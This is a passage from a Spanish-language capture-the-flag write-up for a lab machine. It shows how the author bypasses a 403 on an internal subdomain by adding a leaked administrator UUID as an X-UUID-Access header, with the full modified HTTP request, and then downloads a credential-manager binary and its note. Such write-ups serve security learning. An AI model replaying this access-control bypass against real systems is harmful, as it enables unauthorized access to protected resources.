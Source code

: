 Este es el que nos interesa:
```bash
http://0internal_down.cybersec.dl/
```

Cuando accedemos a el nos retorna lo siguiente:
```bash
# 403 - Acceso denegado

El encabezado `X-UUID-Access` no está presente.
```

Y Sabiendo que el encabezado lo podemos ver desde **intruder** que es el del **administrator** que se refiere a este encabezado:
```bash
"UUID": "f47ac10b-58cc-4372-a567-0e02b2c3d479, df7ac10b-58mc-43fx-a567-0e02b2r3d479",
```

Ahora lo que aremos interceptamos la peticion:
```bash
http://0internal_down.cybersec.dl/
```

Una ves capturada procedemos a agregar el campo faltante que es este:
```bash
X-UUID-Access: f47ac10b-58cc-4372-a567-0e02b2c3d479
```

Quedando la peticion asi antes de ser enviada:
```bash
GET / HTTP/1.1
Host: 0internal_down.cybersec.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-UUID-Access: f47ac10b-58cc-4372-a567-0e02b2c3d479
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

Ahora tenemos acceso a dos archivos:
```bash
http://0internal_down.cybersec.dl/
```

Descargamos estos dos archivos:
```bash
  sec2pass   sec2pass_note.txt 
```

Tenemos esta informacion:
```bash
En Cybersec, estamos comprometidos con la seguridad de la información. Por eso, hemos desarrollado un programa para que nuestros empleados no tengan que recordar sus credenciales. Actualmente se encuentra en fase beta, por lo que aún no se almacenan todas las credenciales, pero a corto plazo se incluirán mejoras y se añadirán las credenciales de más empleados. Nuestro programa, Sec2Pass, cuenta con tres niveles de seguridad para proteger las credenciales internas. Para evitar fugas de información, las credenciales de autenticación para acceder a ellas se actualizan automáticamente cada 24 horas. Por eso, será obligatorio solicitar las credenciales principales al llegar a la empresa, donde se les entregará la primera contraseña de acceso, así como un ping de seguridad adicional. De esta manera, Sec2Pass les proporcionará las credenciales de acceso remoto necesarias para realizar sus funciones.
```
